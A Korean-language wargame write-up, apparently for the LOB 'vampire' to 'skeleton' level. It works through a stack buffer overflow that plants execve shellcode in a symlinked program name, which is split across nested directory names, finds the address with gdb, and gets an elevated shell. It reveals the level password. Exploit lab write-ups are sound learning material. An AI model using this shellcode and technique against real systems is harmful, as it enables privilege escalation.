 ``` gdb
(gdb) x/s 0xbfffff20
0xbfffff20:	 "ZE=1000"
(gdb)
0xbfffff28:	 "TERM=xterm"
(gdb)
0xbfffff33:	 "HOME=/home/vampire"
(gdb)
0xbfffff46:	 "PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/vampire/bin"
(gdb)
0xbfffff89:	 "/home/vampire/", 'A' <repeats 100 times>
(gdb)
```

gdb를 통해 메모리를 보면 실행되는 프로그램 이름 argv[0]이 argv[0] 뿐만아니라 스택의 끝에도 있음을 볼 수 있다.

이 스택 끝에 저장되는 프로그램 이름은 심볼릭 링크로 변경할 수 있으며 argv, envp 등에 의해 삭제되지 않는다. 즉 orge와 비슷하게 풀어낼 수 있다.

사용할 쉘코드는 다음과 같다. /tmp/1sh 를 실행하는 쉘코드이다.
\x90*200 + \x31\xc0\x50\x68\x2f\x31\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80 + \x90*200

이고 이를 / (\x2f) 단위로 끊어서
디렉토리 \x90*200 + \x31\xc0\x50\x68
밑에 디렉토리 \x31\x73\x68\x68
밑에 링크파일 \x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80 + \x90*200

``` bash2
[vampire@localhost vampire]$ mkdir `python -c 'print "\x90"*200+"\x31\xc0\x50\x68"'`
[vampire@localhost vampire]$ cd `python -c 'print "\x90"*200+"\x31\xc0\x50\x68"'`
[vampire@localhost ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h]$ mkdir `python -c 'print "\x31\x73\x68\x68"'`
[vampire@localhost ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h]$ cd 1shh/
[vampire@localhost 1shh]$ ln -s ~/skeleto2 `python -c 'print "\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*200'`
```

gdb로 쉘코드의 주소를 알아보자.

``` gdb
(gdb) b *main+368
Breakpoint 1 at 0x8048670
(gdb) r `python -c 'print "\xbf"*48'`

(gdb)
0xbffffe44:	 "/home/vampire/", '\220' <repeats 186 times>...
```

약 0xbffffe52 + 100 = 0xbffffeb6에 있다고 가정하고 eip를 변경하면 쉘을 얻을 수 있다.

``` bash2
[vampire@localhost 1shh]$ ln -s ~/skeleton `python -c 'print "\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*200'`
[vampire@localhost 1shh]$ $PWD/tmp??S??柰^K????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????? `python -c 'print "A"*44+"\xb6\xfe\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA랗
1sh: /home/vampire/.bashrc: Permission denied
bash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
bash$ my-pass
euid = 510
shellcoder
```
